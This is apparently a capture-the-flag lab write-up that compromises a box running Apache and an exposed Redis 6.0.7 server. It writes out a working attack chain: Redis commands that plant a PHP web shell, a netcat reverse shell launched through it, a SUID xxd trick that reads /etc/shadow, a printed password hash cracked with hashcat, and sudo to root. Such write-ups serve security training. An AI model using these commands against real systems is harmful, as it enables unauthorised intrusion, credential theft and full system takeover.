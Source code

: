 
# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.127.152
```

Output:  

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Linux 3.10 - 3.13 (95%)
```

#### Port 80
Nothing much

#### Port 6379
We find **Redis**

##### What is Redis?

Based on this resources:  

[redis intro](https://redis.io/topics/introduction)  
[redis documentation](https://redis.io/documentation)

Redis is an open source (BSD licensed), in-memory data structure store,
used as a database, cache and message broker.
It supports data structures such as strings, hashes, lists, sets,
sorted sets with range queries, bitmaps, hyperloglogs,
geospatial indexes with radius queries and streams.
Redis has built-in replication, Lua scripting, LRU eviction,
transactions and different levels of on-disk persistence,
and provides high availability via Redis Sentinel and
automatic partitioning with Redis Cluster.  

If we look in the nmap scan we can see that the version of Redis running
is **6.0.7**

# Exploitation

After a google search redis 6.0.7 doesn't seem to be vulnerable  
Let's try and study more about how Redis works  
Let's try and connect to the database

```bash
redis-cli -h 10.10.144.11 -p 6379
```

I searched in google how to get a shell in redis and the best write-up
I found was by [HackTricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce)

According to it, we must first know the path of the web site folder.
But since we know that the webserver is Apache,
we assume that the path is /var/www/html

```bash
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']); ?>"
save
```

Navigate to the Apache2 server  
You can get a reverse shell by:

```bash
http://10.10.144.11/shell.php?cmd=nc -e /bin/sh <you-ip> <port>
```

# Post Exploitation

We can upload linpeas to the machine but with a quick search for
SUID bit set binaries

```bash
find / -perm -u=s 2>/dev/null
```

I found **/usr/bin/xxd** which is weird

# Privilege Escalation

Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/)

```bash
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | /usr/bin/xxd -r
```

Output:

```bash
$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Let's crack it with hashcat

```bash
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
```

Output:

```bash
beautiful1
```

Import a tty so we can su to vianka

```bash
python -c "import pty; pty.spawn('/bin/sh')"
```

To get root

```bash
sudo -l
sudo su
cat /root/root.txt
```
